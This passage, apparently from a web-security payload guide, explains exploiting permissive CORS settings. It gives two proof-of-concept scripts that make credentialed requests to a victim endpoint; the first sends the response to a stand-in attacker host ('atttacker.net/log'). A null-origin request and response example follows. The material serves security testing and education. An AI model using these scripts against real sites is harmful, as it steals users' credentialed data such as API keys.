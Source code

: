 This PoC requires that the respective JS script is hosted at `evil.com`

```js
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://victim.example.com/endpoint',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//atttacker.net/log?key='+this.responseText; 
};
```

or 

```html
<html>
     <body>
         <h2>CORS PoC</h2>
         <div id="demo">
             <button type="button" onclick="cors()">Exploit</button>
         </div>
         <script>
             function cors() {
             var xhr = new XMLHttpRequest();
             xhr.onreadystatechange = function() {
                 if (this.readyState == 4 && this.status == 200) {
                 document.getElementById("demo").innerHTML = alert(this.responseText);
                 }
             };
              xhr.open("GET",
                       "https://victim.example.com/endpoint", true);
             xhr.withCredentials = true;
             xhr.send();
             }
         </script>
     </body>
 </html>
```

### Vulnerable Example: Null Origin

#### Vulnerable Implementation

It's possible that the server does not reflect the complete `Origin` header but
that the `null` origin is allowed. This would look like this in the server's
response:

```
GET /endpoint HTTP/1.1
Host: victim.example.com
Origin: null
Cookie: sessionid=... 

HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true 

{"[private API key]"}
```
